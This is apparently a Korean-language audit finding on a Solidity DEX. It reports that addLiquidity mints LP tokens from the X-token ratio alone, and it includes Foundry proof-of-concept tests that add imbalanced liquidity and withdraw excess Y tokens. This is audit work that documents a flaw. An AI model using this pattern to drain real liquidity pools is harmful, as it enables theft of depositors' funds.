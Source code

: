 # Problem - Broken Pool Liquidity Ratio
## 최영현

### 설명

문제 발생 - addLiquidity function

```solidity
function addLiquidity(uint256 tokenXAmount, uint256 tokenYAmount, uint256 minimumLPTokenAmount) external returns (uint LPTokenAmount){
        require(tokenXAmount > 0 && tokenYAmount > 0);
        (uint256 reserveX, ) = amount_update();
        (, uint256 reserveY) = amount_update();

        if(totalSupply() == 0){ LPTokenAmount = tokenXAmount * tokenYAmount / 10**18;}
        
        else{ LPTokenAmount = totalSupply() * tokenXAmount / reserveX;}
        //console.log("add total:", totalSupply());
        require(minimumLPTokenAmount <= LPTokenAmount);
```

addLiquidity에서 imbalance한 token amount를 제공하더라도 그대로 pool에 add하여 LP token을 발행함

```solidity
function testAddLiquidity() external {
        uint firstLPReturn = dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        emit log_named_uint("firstLPReturn", firstLPReturn);

				uint secondLPReturn = dex.addLiquidity(4000 ether, 100 ether, 0);
        emit log_named_uint("secondLPReturn", secondLPReturn);
        
				(bool success, ) = address(dex).call(abi.encodeWithSelector(dex.addLiquidity.selector, 4000 ether, 100 ether, 0));
        assertTrue(!success, "error");
}
```
<img width="544" alt="스크린샷 2023-03-26 오후 8 40 54" src="https://user-images.githubusercontent.com/127647051/227773283-017aff86-a48f-4e61-a8b9-929e324cbf14.png">

→ second addLiquidity에서 LP token 발행시, 무조건 X토큰을 기준으로 발행함. Y토큰에 적은양을 amount로 주더라도 X토큰에 대한 LP token을 받을 수 있으며, 해당 값이 totalSupply로 mint됨

→ removeLiquidity시, Y토큰에 대해 더 많은 amount를 획득할 수 있게됨

```solidity
function testAddLiquidity() external {
        uint firstLPReturn = dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        emit log_named_uint("firstLPReturn", firstLPReturn);

        uint secondLPReturn = dex.addLiquidity(4000 ether, 100 ether, 0);
        emit log_named_uint("secondLPReturn", secondLPReturn);

        (uint x, uint y) = dex.removeLiquidity(secondLPReturn,0, 0); //lp = 1000
        emit log_named_uint("x", x);
        emit log_named_uint("y", y);

        assertEq(x, 4000 ether);
        assertEq(y, 100 ether);
    }
```
<img width="546" alt="스크린샷 2023-03-26 오후 8 42 03" src="https://user-images.githubusercontent.com/127647051/227773319-50f7f597-119e-4257-bd2c-bf45ddc8dea0.png">
